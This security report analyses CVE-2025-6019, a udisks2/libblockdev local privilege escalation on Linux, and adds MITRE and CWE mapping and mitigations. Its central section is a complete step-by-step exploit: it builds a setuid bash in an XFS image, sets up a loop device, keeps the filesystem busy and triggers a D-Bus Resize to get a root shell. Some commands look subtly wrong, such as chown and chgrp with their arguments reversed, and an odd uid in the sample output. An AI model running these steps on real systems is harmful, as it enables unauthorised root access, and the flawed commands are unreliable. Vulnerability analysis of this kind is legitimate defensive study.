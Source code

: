 # Cybersecurity Report on a Recent udisks2 Vulnerability on Linux

This report concerns the vulnerability identified by CVE-2025-6019 [^1] and the proof of concept provided by Qualys to exploit it [^2].

## The Threat Model

The attacker needs to be able to log-in locally on the target Linux system (i.e. has to be physically present in front of the computer) with any valid account for which the Polkit "allow\_active" policy is enabled. The attacker also needs to be able to copy files to the target machine, either locally or through the network. The target machine needs to run the Linux kernel, use Polkit for security policy enforcement, and the udisks daemon to manage storage devices.

## The Main Idea

A user that is physically logged into a Linux machine is given some additional privileges as opposed to a user logged in remotely. One of these privileges is granted by Polkit and it concerns the udisks daemon. Such a user can set up a loop device that is backed by an arbitrary filesystem image and it can mount it without being root. Given that the user has the ability to mount any self-provided filesystem, the udisks daemon mounts it with the *nosuid* and *nodev* flags to prevent execution of suid-enabled binaries inside the filesystem, and so that device files (like */dev/mem* or */dev/sda*) cannot be used to access sensitive system resources.

The idea of this exploit is to find a way to trick the udisks daemon into mounting a user-provided filesystem without enabling the *nosuid* and *nodev* flags.

## The Exploit

Since 2017, the udisks daemon allows an "allow\_active" user to resize filesystems. In particular, when resizing an XFS filesystem, udisks calls libblockdev (a library for low-level block devices manipulation), which temporarily mounts this XFS filesystem in */tmp* ***without*** enabling the *nosuid* and *nodev* flags. This allows the attacker to create an XFS image on their own machine and store inside a suid-enabled binary. After doing so, the attacker can copy the image to the target machine, resize it, mount it, and execute the suid-enabled payload stored inside */tmp*, thus obtaining root privileges.

## A Possible Attack

### Our set-up:

Even though this vulnerability has been discovered quite recently and many Linux distributions still haven't patched it at the time of writing this report, we will be using an older Ubuntu 22.04 LTS installation to make sure the bug hasn't been fixed. The O.S. will be ran on a virtual machine and, for convenience purposes, the attacker and the victim will operate on the same installation.

### On the attacker machine:

We log in as root and after that we create an empty 300MiB XFS image:

```
root# dd if=/dev/zero of=./xfs.image bs=1M count=300
root# mkfs.xfs ./xfs.image
```

Then we mount it:

```
root# mkdir ./xfs.mount
root# mount -t xfs ./xfs.image ./xfs.mount
```

And we copy the Bash shell executable inside and enable the setuid bit:

```
root# cp /bin/bash ./xfs.mount
root# chmod 04555 ./xfs.mount/bash
root# umount ./xfs.mount
```

At this point we can copy the image to the target machine however we want. Since in this case we are operating on the same machine, we can simply copy the image to /home/victim and change its ownership:

```
root# cp ./xfs.image /home/victim
root# chown /home/victim/xfs.image victim
root# chgrp /home/victim/xfs.image victim
```

### On the target machine:

We log into the target machine using our valid account (*victim*) and we check if the "allow\_active" policy is enabled:

```
victim$ gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
('yes',)
```

![Logged in as unprivileged account](/images/screen_normal.jpg)

We set up a loop device based on our XFS image, but we first have to make sure that "gvfs-udisks2-volume-monitor" is not running as our user. This daemon would automatically mount the filesystem, whereas we want libblockdev to do it instead:

```
victim$ killall -KILL gvfs-udisks2-volume-monitor

victim$ udisksctl loop-setup --file ./xfs.image --no-user-interaction
Mapped file ./xfs.image as /dev/loop0.
```

Before asking the udisks daemon to resize our XFS filesystem, we want to make sure the mounted filesystem will be kept busy. This is done because libblockdev is only supposed to *temporarily* mount the filesystem to */tmp*, so we need to stop it from unmounting it. The following command loop will do this for us:

```
victim$ while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &
```

Now we can mount the filesystem through udisks:

```
victim$ gdbus call --system --dest org.freedesktop.UDisks2 --object-path /org/freedesktop/UDisks2/block_devices/loop0 --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'
Error: GDBus.Error:org.freedesktop.UDisks2.Error.Failed: Error resizing filesystem on /dev/loop0: Failed to unmount '/dev/loop0' after resizing it: target is busy
-r-sr-xr-x. 1 root root 1406608 May 13 09:42 /tmp/blockdev.RSM842/bash
```

Finally, we execute the suid-flagged root shell from our XFS filesystem in */tmp* and therefore obtain full root privileges:

```
victim$ mount
...
/dev/loop0 on /tmp/blockdev.RSM842 type xfs (rw,relatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)

victim$ /tmp/blockdev*/bash -p

root# id
uid=65534(victim) gid=65534(victim) euid=0(root) groups=65534(victim)
```

![Executing as root](/images/screen_root.jpg)

## Vulnerability Assessment

### MITRE ATT\&CK Mapping

This vulnerability is a case of LPE, Local Privilege Escalation. On order to exploit it, we make use of a common daemon running on Linux to perform a few tasks with an unnecessary high level of privilege. An appropriate mapping to the MITRE ATT\&CK framework might be categorizing it as a Exploitation for Privilege Escalation technique [^3].

### CWE Classification

The common weakness found to be responsible for this vulnerability is CWE-250: Execution with Unnecessary Privileges [^4]. To quote the website: *"The product performs an operation at a privilege level that is higher than the minimum level required, which creates new weaknesses or amplifies the consequences of other weaknesses".*

### CVSS Evaluation

This vulnerability has been deemed of High severity. The proper reasons are not given, but we can speculate that it's because of the fact that not only does this vulnerability allow any "reasonably privileged" user the ability to elevate itself to root, but it also only requires very common O.S. utilities to be present on the target system. Still, it needs the account to be a valid one and to be logged in locally to the target machine, but there are ways [^2] to enable the "allow\_active" policy even for remotely logged users, making this attack even more dangerous and automatable.

### Mitigations

A fix [^5] has already been made available which tells libblockdev to mount the filesystem to /tmp with the *nosuid* and *nodev* flags enabled, as it should. In the impossibility of patching the software, a last resort mitigation [^6] can be to modify the Polkit policy and only allow system accounts to mount filesystems.

### Diclosure

LLMs were used in the writing of this report to better understand some of the commands present in the PoC.



[^1]: (https://www.cve.org/CVERecord?id=CVE-2025-6019)

[^2]: (https://cdn2.qualys.com/2025/06/17/suse15-pam-udisks-lpe.txt)

[^3]: (https://attack.mitre.org/techniques/T1068/)

[^4]: (https://cwe.mitre.org/data/definitions/250.html)

[^5]: (https://github.com/storaged-project/libblockdev/commit/46b54414f66e965e3c37f8f51e621f96258ae22e)

[^6]: (https://ubuntu.com/blog/udisks-libblockdev-lpe-vulnerability-fixes-available)
